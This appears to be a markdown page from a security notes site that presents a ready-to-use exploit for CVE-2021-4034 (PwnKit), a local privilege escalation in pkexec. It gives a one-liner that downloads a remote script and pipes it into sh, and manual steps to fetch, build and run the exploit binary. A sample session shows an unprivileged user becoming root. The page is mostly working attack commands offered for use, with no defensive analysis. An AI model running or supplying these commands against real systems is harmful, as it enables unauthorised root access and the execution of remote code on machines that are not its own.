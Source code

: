 ```yaml
---
title : "CVE-2021-4034"
# pre : ' '
description : "Pkexec Local Privilege Escalation."
date : 2022-03-03T11:13:34+01:00
# hidden : true
# draft : true
weight : 270
# tags : ['']
---
```


---

## Pkexec Local Privilege Escalation

Self-contained exploit for CVE-2021-4034 - Pkexec Local Privilege Escalation

## Usage

Should work out of the box on vulnerable Linux distributions based on Ubuntu, Debian, Fedora, and CentOS.

```plain
sh -c "$(curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit.sh)"
```

![example](images/oneliner.png)

### Manually

```plain
curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit -o PwnKit
chmod +x ./PwnKit
./PwnKit # interactive shell
./PwnKit 'id' # single command
```

![example](images/exploit.png)

### Patched

Running the exploit against patched versions will yield the following output.

![example](images/patched.png)

### Building Pwnkit

```plain
gcc -shared PwnKit.c -o PwnKit -Wl,-e,entry -fPIC
```

Pre-built below:

{{%resources fa_icon_class="far fa-file-pdf" pattern="PwnKit"/%}}

## Examples

```plain
unpriv_user@host:~$ id
uid=1338(unpriv_user) gid=1338(unpriv_user) groups=1338(unpriv_user)
unpriv_user@host:~$ ./PwnKit 
root@host:~# id
uid=0(root) gid=0(root) groups=0(root),1338(unpriv_user)
```

## URL List

- [Github.com - Pwnkit](https://github.com/ly4k/PwnKit)
- [Github.com - CVE-2021-4034](https://github.com/arthepsy/CVE-2021-4034/)
- [Blog.qualys.com - PwnKit: Local Privilege Escalation Vulnerability Discovered in polkit’s pkexec (CVE-2021-4034)](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034)
